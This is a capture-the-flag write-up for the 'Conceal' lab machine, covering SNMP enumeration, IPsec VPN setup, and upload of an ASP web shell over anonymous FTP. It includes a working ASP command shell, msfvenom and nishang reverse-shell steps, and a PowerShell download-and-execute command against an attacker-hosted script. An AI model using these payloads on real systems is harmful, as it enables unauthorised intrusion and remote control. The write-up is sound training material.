


# Conceal

## Introduction
This machine is rated as hard difficulty and for good reason, the machine is long and requires a lot of techniques to fully exploit however it is a worthwhile adventure. The machine requires us to enumerate the Internet Key Exchange (IKE) protocol and set up a IPSec transport mode VPN just to carry out the necessary reconnaissance. We will then need to upload shell scripts via two vulnerable services (HTTP and FTP). The privilege escalation has two methods, one requires us to list the hoxfixes to identify an ALPC Task Scheduler Local Procedure Call (LPC) vulnerability, the other is to obtain a SYSTEM shell via SeImpersonatePrivilege. 

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Understand Networking Protocols | IKE Configuration |
| Enumerating Windows | Using IPSec |


## Phase 1 - Reconnaissance
The initial enumeration stage of this machine isn’t as straightforward as previous machines which is one of the many reasons this machine earned it’s hard difficulty rating. As usual we will start with nmap, however there are some initial set-ups that are required before we can enumerate all of the TCP ports on this machine. The enumeration phase for this machine will take us through some IPSEC via UDP port scanning, key exchange protocols and Simple Network Management Protocol (SNMP).

### Initial Port Scan
We can start by using our usual nmap command,  my go to usage of nmap is ``nmap -T4 -sC -sV [target-IP] -oN Conceal.nmap`` with the IP of our target. However the initial scan is being blocked, although we will be able to ping the target, using nmap currently yields the following result:


When this happens, it can sometimes be because the host is blocking the probes, nmap suggests using ``-Pn`` instead of ``-p-`` in order to skip host discovery and instead scan only the ports. This can take a while so I recommend also adding ``--min-rate=1000`` to our command to ensure at least 1000 packets are sent per second.


Now the scan can see that the host is up but all of the ports are filtered. There is some kind of network security protocol at play that is preventing us from being able to scan the TCP ports for this machine. This can be enough to stop some users in their tracks but as the saying goes, we’re going to need to try harder.

### UDP Port Scan
For the next scan we are going to see if there are any UDP ports open on the target host, often the security protocols that prevent us from scanning for TCP ports are running on a UDP port so it’s worth investigation when in this situation, to do this we use ``-sU`` in the nmap command. You may need to run the command with ``sudo`` as it requires root privilages. This scan will take an extremely long time to go through all 1000 ports and run the scripts against them so to avoid this we’ll not run any scripts or service scans, retain our minimum rate and scan only ports between 1 and 1000.


The scan revealed UDP port 500 running a ISAKMP service. ISAKMP stands for Internet Security Association and Key Management Protocol, it serves as a common framework for defining the agreed formats and procedures for authenticating a communication peer and for the creation and management for security associations, key generation techniques, and to mitigate threats such as DoS and replay attacks. ISAKMP is used to implement the Microsoft Windows IPSEC service. More information can be found at https://en.wikipedia.org/wiki/Internet_Security_Association_and_Key_Management_Protocol.

It appears from this information and our scan that UDP 500 is being used to run an IPSEC VPN service on this machine which is likely the reason we cannot conduct a TCP port scan with NMAP, since TCP connections are probably restricted to this IPSEC VPN. ISAKMP needs to be implemented alongside protocols that provide the authenticated keying material such as Internet Key Exchange (IKE) or Kerberized Internet Negotiation of Keys (KINK).  We can attempt to find the Key Exchange protocol being used with nmap again but this time we will run script and service scans against only the UDP port 500 with ``sudo nmap -sC -sV -sU -p500 [target-IP]``. I’ll be saving the output for later with ``-oN``.


Like my situation, your nmap scan may be unable to find any additional information about this UDP port because nmap scans rely heavily on a handshake to determine if a port is open, therefore it is notoriously unreliable with UDP. In order to progress we’ll need to scan the target fully to see if there are any additional services that are open.

Unfortunately this time there is no way for us to avoid the long scan duration that results from running scripts against all potential ports, this is because those scripts are more likely to get a response from open ports than the basic nmap scan itself.  You can leave the scan running for a long time and scan all of the ports with the default scripts, alternatively NMAP allows us to scan the top commonly used ports. So for the next attempt we will scan the top 20 ports and run the default scripts with our scan. To achieve this we can use ``sudo nmap -T4 -sC -sU --top-ports 20 [target-IP] -oN conceal_UDP_top20.nmap --min-rate=10000``. The scan will still take a while even with ``-T4`` and ``min-rate=10000``, mine took almost 5 minutes, so best to go make a coffee or have a snack while we wait.


The scan will have a very large output but reveals a lot of open and filtered UDP ports. The information we find interesting here is that UDP port 161 is open but not filtered and running SNMP. Further down the output you may also notice the snmp-netstat outputs a list of TCP ports that are open but provides no further additional information on them. We are still unsure of what key exchange protocol is being used with the ISAKMP service however discovering that the target is using SNMP allows us to progress with our enumeration.

### Simple Network Management Protocol (SNMP)
SNMP stands for Simple Network Management Protocol, typically implemented using UDP, it serves as a network protocol for managing and monitoring devices connected on the network. Functioning as part of the application layer in the OSI model, it provides a common mechanism that allows devices to relay management information even within multi-vendor networks. To learn more about SNMP, I recommend this article https://www.thousandeyes.com/learning/techtorials/snmp-simple-network-management-protocol that goes over SNMP and it’s features in more detail.

With SNMP there are two important roles, the SNMP agent which each network device will have and the SNMP manager. The SNMP agent collects information from the device and stores it in a database known as Management Information Base (MIB), the SNMP manager can then query an SNMP agent to retrieve information stored within the MIB. The manager commonly does this using the GET or GETNEXT query commands. There are different versions of SNMP, versions v1 and v2c are still very popular but are considered insecure as they allow access to the MIB information via a ‘SNMP Community String’, by default SNMP agents use the “public” community string and managers use “private”. When encountering SNMP services on a target during a penetration test, we can potentially collect and enumerate information from it using SNMPwalk, SNMPwalk will take our given community string to access then run multiple GETNEXT requests to the specified SNMP agent in order to extract the information stored in the MIB. Since this information will be useful to us, we should run SNMP walk on the target SNMP service. Read https://www.webservertalk.com/snmpwalk-examples-for-windows-and-linux/ for additional information about SNMPwalk and examples of how it can be used.

We can use SNMPwalk with  the ``snmpwalk`` command, we need to specify a version with ``-v``, due to their similarities we can start with version 2c. We know from our research that the default community string for SNMP agents is public which we can specify with the ``-c`` option. Our command therefore will be ``snmpwalk -v 2c -c public [target-IP]``


There is a considerably large output from this command, thankfully the information we are interested in is at the top. From the SNMP enumeration we can see some hardware and software information, but most interestingly we see two strings which reveal a possible name ``STRING: “Conceal” `` and a password ``STRING: “IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43``. 

The hash provided `` 9C8B1A372B1878851BE2C097031B6E43`` has 32 characters suggesting either an MD5 or NTLM format. This hash is stored in the databases of various online decoder tools such as the one at https://hashes.com/en/decrypt/hash. 


We decode it as ``Dudecake1!``, giving us a password for the IKE VPN that we’ll likely need to connect to the target machine.
The string that provided the hash also revealed that the password is used for a IKE VPN…

### Internet Key Exchange (IKE)
From our SNMP scan it is revealed that the ISAKMP service we scanned on UDP 500 is likely using IKE to establish an IPSEC VPN. This information is supported by the fact that UDP port 500 is commonly used for IKE. Information about IKE can be found at https://en.wikipedia.org/wiki/Internet_Key_Exchange.

Kali Linux comes with a tool called ``ike-scan`` that can both be used to discover which hosts are running IKE and also for determining which IKE implementation the hosts a running. It does this by recording the times of the IKE response packets from the target hosts and comparing the retransmission patterns against known patterns. The official documentation can be read at https://www.kali.org/tools/ike-scan/.

We will need to use ``ike-scan`` to acquire important information that will allow us to connect to the IPSEC VPN which should give us access to the TCP ports and therefore the ability to scan them with ``nmap``. This can be done by using the command ``sudo ike-scan -M [target-IP]``. It’s stated in the documents that adding ``-M`` will split the decoded result for each request payload onto seperate lines to make it easier to read.


The important information from this scan is regarding the Security Association (SA), namely that the key is encrypted with triple DES, using SHA1 hash format, with the modp1024 DH group (it’s recommended to avoid this DH group) and authenticated using a preshared key (PSK). To determine the IKE version we are dealing with we can run the scan but using IKE version 2 by simply adding ``-2`` to the Ike-Scan command.


Since nothing was returned, it is safe to assume we will be working with IKE version 1.

### Connecting to IPSEC VPN with IKE
Internet Protocol Security (IPsec) is a IP-layer protocol suite used in virtual private networks (VPNs) that provides authentication and packet encryption to facilitate secure and encrypted communication between computers on a network. IPsec comprises of three types of protocol: Authentication Header (AH) authenticates the source and ensures the integrity of data packets but doesn’t provide any encryption to conceal the data, alternatively the Encapsulating Security Protocol (ESP) encrypts the payload and in some modes the IP header of a data packet by encapsulating that encrypted packet within it’s own header and trailer. Either AH or ESP will be used in conjunction with a Security Association (SA), which is used for negotiating encryption algorithms and keys, the most common of which is IKE which we are dealing with. We have already gathered information about the SA being used with this IPsec implementation.

IPsec operates in either tunnel mode or transport mode. Tunnel mode is used for networks, in this mode the IP header is encrypted with the payload, IPsec adds an additional IP header so intermediate routers can forward packets still, but only routers at the end of the tunnel will decrypt the original IP header to deliver the packet to it’s final destination, thus obfuscating the origin and destination of each data packet. However in our case we will be using transport mode, as it provides security between two hosts by encrypting the payload of each packet but leaving the IP headers so that each packet can be routed as normal. More information about IPsec can be found at https://www.cloudflare.com/en-gb/learning/network-layer/what-is-ipsec/. To set up our IPsec VPN connection we will be using a tool called strongSwan. 

 

For it to work with the triple DES encryption algorithm, we will need to install some additional plugins using ``sudo apt install libstrongswan-standard-plugins libstrongswan-extra-plugins``.

 

To set up our IPsec VPN connection we need to first do some configuration of the IPsec configuration files ``/etc/ipsec.secrets`` and ``/etc/ipsec.conf``, information about these storngSwan configuration files can be found on their official wiki at https://wiki.strongswan.org/projects/strongswan/wiki/ConfigurationFiles. According to the documentation for ``ipsec.secrets`` we need to add our PSK and destination to this file, since the IP of our target can change if we switch machines on the VPN we can use ``%any`` to match our PSK with any IPsec VPN destination, we already decoded the PSK as being ``Dudecake1!``. Below is my ``ipsec.secrets`` file.

```
# This file holds shared secrets or RSA private keys for authentication.

%any : PSK "Dudecake1!"

# RSA private key for this host, authenticating it to any other host
# which knows the public part.
```

Now we need to set up a configuration in ``ipsec.conf`` for our connection, this part can be a bit tricky and require some research, the wiki linked above can help with understanding the parameters. We have already gathered enough information to make a basic configuration out of some parameters: We know we should use transport mode, key exchange is ikev1, we know the IP of the target (it’s 10.129.33.27 in my case), it’s using PSK authentication, for TCP protocols (we can already scan UDP) and we know the SA algorithms for our IKE from the ``ike-scan``. If we consult https://www.ibm.com/docs/no/zos/2.2.0?topic=ipsec-ah-esp-protocols we can see that our encryption algorithm (triple DES) only works for the ESP encryption protocol and our authentication algorithm (SH1) with either the ESP or AH authentication protocol, but strongSwan does not support AH and ESP bundles so we will be using ESP for both. Adding ``auto=start`` means when we start the IPsec it will load and connect immediately. With this knowledge we can construct the following configuration for a connection named ``Conceal`` and add it to our ``/etc/ipsec.conf`` file:

```
conn Conceal
        type=transport
        keyexchange=ikev1
        right=10.129.33.27
        authby=psk
        rightprotoport=tcp
        leftprotoport=tcp
        esp=3des-sha1!
        ike=3des-sha1-modp1024!
        auto=start
```

Start the strongSwan service with ``sudo ipsec start --no-fork``, adding ``--nofork`` can help with debugging, then load the VPN configuration with ``sudo ipsec up Conceal``. It may take some trial and error to get this configuration correct, if you do receive an error be sure to restart after each change with ``sudo ipsec restart`` before starting the connection again. It may also be helpful to add the line ``charondebug=”all”`` for further help with troubleshooting, but the configuration above should work.


The output ``Conceal established…`` confirms that we are now connected to the IPsec VPN and can send TCP packets to our target. To disable the VPN just use ``sudo ipsec stop``.

### Scanning TCP ports through IPSEC VPN
The IPsec service was restricting all TCP data packets being sent to and from the target machine, since our original Nmap requests were unauthorised our initial scan for open TCP ports failed. Now that we have our IPsec VPN running we can finally send authorized TCP packets to the target allowing us to complete our Nmap scan.



From the scan we can see a number of TCP ports are open. Of particular interest to us is the FTP service on port 21 and the HTTP service on port 80. Our script scans revealed that the anonymous FTP login is enabled, giving us an authorised connection to the FTP server where we can potentially view and upload files.


From the example above, we can see that there is nothing in the FTP directory however we can upload our own files to it. Since we have a HTTP service open on port 80, we should try to enumerate the web directory to find any potential vulnerabilities.

### Enumerating Web Service Directory
When we visit the target in a web browser all that can be seen is the default IIS page. If we enumerate the web directory with a tool of our choosing (dirb in this case) we can find something else. (NOTE: Somtimes the IPsec VPN connection will be closed by the target, when that happens redo the ``sudo ipsec up Conceal`` command.)


Our enumeration reveals a ``/upload`` directory on the web server. We can visit this in the web browser and view the contents of this directory.


What’s interesting here is that the test file uploaded via FTB is actually located in this directory as we can see from the screenshot. This means that we have the ability to upload files to the web server and potentially acquire ourselves a command injection vector. This is the route we need to go if we are to exploit this target machine. The machine will on occasion clear the upload directory, so if attempting this machine and you cannot see this file then go back to the FTP anonymous and upload it again, it should appear. 

## Phase 2 – Exploitation
Now we can finally enumerate the target to find our attack vector, we can proceed to exploiting the vulnerability to get user. The upload directory is of high interest but uploading and executing a shell isn't straight forward. In this phase we'll be using ASP web shells and a powershell shell script.

### Web Command Execution
Since we have a direct way to upload files to the web server directory and it allows us to execute them via /upload/[filename] it is logical to assume that our next course of action is to upload a shell so we can get a terminal connection to the target. The type of shell script we need depends on the backend software running, different web servers use different handlers for their server-side scripting, largely this is PHP however our nmap scan and the index page of the web service indicates this is a Microsoft IIS server.


These servers usually use ASP or ASPX format for server-side processing, so initially we would probably craft ourselves an aspx shell using ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=[YOUR IP] LPORT=[LISTENER PORT] -f aspx > shell.aspx``, I also did the same but with the ASP format. For now let’s assume a 64 bit architecture. I upload both my crafted shells with a ``nc -lnvp [port]`` running but when I visit the /upload/[shellname] URI’s I receive the following error.


'
The page is stating that the page cannot be loaded due to the filename extension. This is with all formats - except the ASP format which just shows a blank page. This means that the web server can execute asp files, however my listener does not catch a connection, the reverse TCP is being blocked.

ASP files can still be used to execute server commands in the form of a web shell, unlike a reverse TCP which creates a connection between two hosts, a web shell will take a command input parameter and then execute it, thereby facilitating remote command execution. There is an asp web shell made by tennc on github that we can download and use from ``wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.asp`` and upload it to the FTP. 

 

It will present for us a web page with an input field for our command and also display the user name and hostname.

### OPTIONAL ALTERNATIVE: Active Server Page Scripting
This machine provides a good opportunity to learn about ASP exploitation by allowing us to write our own ASP web shell script.

ASP stands for Active Server Pages and is a framework for developing web pages using server-side execution. Released in 1998 ASP became Micrsoft’s first server-side scripting language, it originally used HTML pages with the .asp extension to integrate server-side scripts written in the into the web page content, scripts in ASP files use VBScript syntax. There have since been many different development models for ASP, since our target web server is using ASP files to serve web page content we are using the original model known as classic ASP. We can read how to use this at https://www.w3schools.com/asp/asp_introduction.asp, W3schools also has lots of references to different ASP objects and functions on the sidebar too. Using this as a reference we can construct the following script.

```
<%
commandInput = Request.QueryString("cmd") ' Take our command to execute.
set Shell = CreateObject("WScript.Shell") ' Shell object to execute the command with.
set CommandExecution = Shell.Exec(commandInput).StdOut ' Execute the command and save the output stream object	.
outputString = CommandExecution.Readall() ' Read the steam object as a string.
response.write outputString ' Output the string that comes of our command execution.
%>
```

ASP files are HTML files but can parse tags to reference scripts. Our script first needs to use the ASP script tags ``<%`` and ``%>``, we can also include HTML formatting however we just need to input command and output response so to save time there is no need for it to be included. We can specify the command to execute via the HTTP request query string, e.g ``wshell?cmd=[command]``. The request ASP object has a method for retrieving query string values so by using ``Request.QueryString(“cmd”)`` we can retrieve the command we wish to execute.  Using the Wscript root object that is always instantiated when a windows script is run, we create a new windows shell object by creating an instance from ``WScript.Shell``. To create an object in VBScript syntax we must use ``set``. We can now use ``Exec()`` method of our shell to execute the command. To know the output we use the ``StdOut`` property inherited from the WScript object to return a text stream object. With the ``ReadAll()`` method available for all text stream objects, we can parse the output steam as a string. Finally to read the command output we need to send it as the HTTP response, so ``Response.write OutputString`` will return the output from our shell executing the query string as the HTTP response.

To test it we just upload the script to the FTP directory then when we request the asp file we include our command as the query string, I name it ‘wshell.asp’ so the URI of our request will be ``wshell.asp?cmd=whoami’’ if we want to execute the ``whoami`` command.

 [todo]

Now we can execute commands on the web server by either manually visiting the page or using curl like shown above. However this shell is highly limited and there are very few commands we are able to execute.
To see more of how to use ASP with VBscript then see the examples at https://www.w3schools.com/asp/asp_examples.asp, VBScript is used in many Microsoft scripting situations, it allows Windows users to script powerful tools for managing their systems, therefore being able to interpret and understand it’s syntax can be beneficial when penetration testing windows target hosts: https://www.tutorialspoint.com/vbscript/index.htm

### Interactive Command Shell
Writing shell scripts is entertaining but with penetration testing there is no need to reinvent the wheel, especially when you have a limited time to complete a penetration test. Our ASP web shell allows basic command execution but is highly limited. To progress we need a fully interactive reverse TCP command line shell, for windows targets this will be with PowerShell. In these situations it’s good to utilise the ‘Invoke-PowershellTcp’ PowerShell script by user samratashok on github. We can copy an instance of it to our local working directory with ``wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1``.
 
 

Take a brief moment to look over the PowerShell script we downloaded if you haven’t before, you may be able to see that the PowerShell script we just downloaded is a function named “Invoke-PowerShellTcp”. It includes instructions on how this function can be called to spawn the shell. Currently this script contains just the function, for it to work we add a line to the script, after the function code, to have that function called with our parameters. To this this we can use ``echo`` and pipe the output as a new line into the script with ``echo ‘Invoke-PowerShellTcp -Reverse -IPAddress [your IP] -Port [Listener Port]’ >> Invoke-PowerShellTcp.ps1``. This shell script needs to be downloaded onto the target, we can use python 3 to spawn a simple HTTP server that will host the working directory with ``sudo python3 -m http.server 80``.

 

To download the script onto the target we need to use a PowerShell command which we can execute using our simple ASP web shell we constructed earlier. The command we can use is ``powershell -c Invoke-Expression(New-Pbject Net.Webclient).downloadstring(‘http://[Your IP]/Invoke-PowerShellTcp.ps1’)`` which will use the ‘Invoke-Expression’ command to execute the output of the ‘downloadstring’ method on a new Webclient object from the NET framework namespace. In other words, we are using PowerShell to make a Net.Webclient object that downloads our script as a string and then that string is executed with ‘invoke-expression’.

Since our ASP shell uses query string, every space in the command must be replaced with ``%20`` and every single quote with ``%27`` as these represent the character codes in the URL. Therefore using a web browser we should visit ``http://[target IP/upload/wshell.asp?cmd=powershell%20-c%20Invoke-Expression(New-Object%20Net.Webclient).downloadstring(%27http://[your IP]/Invoke-PowerShellTcp.ps1%27)`` in the browser to download and execute our shell script.


 Then provided a listener was running on the specified port from earlier we will have our interactive shell which allows us access to the user flag.
 


Occasionally the IPSec VPN connection will close meaning it may be worth crafting a script that automates this process, especially as the upload directory is purged regularly too.

## Phase 3 - Privilege Escalation
Privilege Escalation on this machine has two routes. The first route we will cover involves enumerating the target to find no patches listed next to ‘Hotfix(s)’, then coupled with online research into this build of windows 10 we can find it is vulnerable to ALPC Task Scheduler LPE (CVE-2018-8440).  The alternative route is to notice that the user we compromised has SeImpersonatePrivilege enabled which means we can use a tool called ‘Juicy Potato’ to change the administrator password and gain SYSTEM access.

### ALPC Task Scheduler LPE
In progress...

### Juicy Potato
In progress...

## Conclusion
In this machine we learned about the IKE protocol and how to use IPSec in order to subvert firewall restrictions for TCP connections. Then through vulnerable FTP anonymous user that uploads to a web service we are able to upload an ASP web shell and get basic command execution. Using this web shell we can upload a PowerShell script that gives us a user shell. Finally there are two routes that can be taken for privilege escalation, one by making use of a Common Vulnerabilities and Exposures (CVE) entry, the other by using Juicy Potato to exploit the user having SeImpersonatePrivilege enabled. Overall a very interesting box which requires an entire technique just to scan TCP ports, a long but rewarding challenge with a fairly realistic scenario.